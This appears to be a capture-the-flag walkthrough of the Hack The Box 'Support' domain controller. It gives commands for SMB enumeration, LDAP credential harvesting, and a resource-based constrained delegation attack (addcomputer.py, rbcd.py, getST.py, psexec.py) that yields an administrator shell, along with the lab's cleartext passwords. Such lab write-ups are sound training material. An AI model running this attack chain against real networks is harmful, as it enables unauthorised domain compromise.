










# Enumeration
```
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-03-13 15:17:21Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2024-03-13T15:17:24
|_  start_date: N/A
|_clock-skew: -22h27m54s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
```
Enumerating smb with `smbmap -u guest -H dc.support.htb`

We access the share with `smbclient \\\\dc.support.htb\\support-tools -N --no-pass`

Found an unusual app called UserInfo.exe so using mono to run it:


Using wireshark to sniff the packets or can use DNSpy as it is a .NET application we find:

Following to TCP stream:

This appears to be a cleartext password for a user called ldap
Trying the password with 
```
cme smb 10.10.11.174 -u ldap -p "$nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz"  
```
It doesnt work
But using single quotes and removing "$" makes it work.

Now using bloodhound to collect info
```
bloodhound.py -dns-tcp -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -ns 10.10.11.174 -d support.htb -c all
```
We find almost nothing of value but the *support* user looks interesting

Now using ldapsearch 
```
ldapsearch  -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b "DC=support,DC=htb" -H ldap://support.htb > ldap.out
```
Now checking the info field in ldapsearch we find password for support:
support:Ironside47pleasure40Watchful`

Now we attack with the genericAll permission:
Creating a machine account:
`addcomputer.py -method SAMR -computer-name 'aditya' -computer-pass 'Aditya123@' -dc-host dc.support.htb -domain-netbios support.htb 'support.htb/support:Ironside47pleasure40Watchful'`
Delegation from aditya to dc:
`rbcd.py -delegate-from 'aditya$' -delegate-to 'dc$' -action 'write' 'support.htb/support:Ironside47pleasure40Watchful'`
Now getting the ticket:
`getST.py -spn 'www/dc.support.htb' -impersonate administrator 'support.htb/aditya$:Aditya123@'`
Now to get a shell:
`KRB5CCNAME=administrator.ccache psexec.py -dc-ip 10.10.11.174 support.htb/administrator@dc.support.htb -k -no-pass`

